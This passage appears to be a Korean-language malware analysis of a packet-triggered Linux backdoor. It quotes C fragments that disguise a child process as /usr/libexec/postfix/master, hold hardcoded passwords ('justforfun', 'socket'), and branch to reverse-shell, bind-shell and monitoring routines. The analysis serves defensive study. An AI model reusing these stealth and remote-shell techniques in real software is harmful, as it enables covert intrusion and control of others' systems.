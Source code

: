 ```c
                chdir("/");
                setsid();
                signal(SIGHUP, SIG_DFL);
                memset(argv0, 0, strlen(argv0));
                strcpy(argv0, pname); // sets process name (/usr/libexec/postfix/master) 
                prctl(PR_SET_NAME, (unsigned long) pname);
```

매직 패킷이 존재하면 `/usr/libexec/postfix/master` 이름을 가진 자식 프로세스를 생성하고 세션 리더로 설정해 좀비화를 방지한다  

매직 패킷을 처리하는 동안에도 패킷을 계속해서 받기 위해 프로세스를 분기하여 비동기적으로 처리한다  

자식 프로세스의 프로세스명 또한 변종에 따라 달라질 수 있다  
<br>

---

### 패스워드에 따른 동작

```c
char hash[] = {0x6a, 0x75, 0x73, 0x74, 0x66, 0x6f, 0x72, 0x66, 0x75, 0x6e, 0x00}; // justforfun
char hash2[]= {0x73, 0x6f, 0x63, 0x6b, 0x65, 0x74, 0x00}; // socket

...

int logon(const char *hash)
{
        int x = 0;
        x = memcmp(cfg.pass, hash, strlen(cfg.pass));
        if (x == 0)
                return 0;
        x = memcmp(cfg.pass2, hash, strlen(cfg.pass2));
        if (x == 0)
                return 1;
 
        return 2;
}

...

cmp = logon(mp->pass);
switch(cmp) {
        case 1:
                strcpy(sip, inet_ntoa(ip->ip_src));
                getshell(sip, ntohs(tcp->th_dport));
                break;
        case 0:
                scli = try_link(bip, mp->port);
                if (scli > 0)
                        shell(scli, NULL, NULL);
                break;
        case 2:
                mon(bip, mp->port);
                break;
}
```
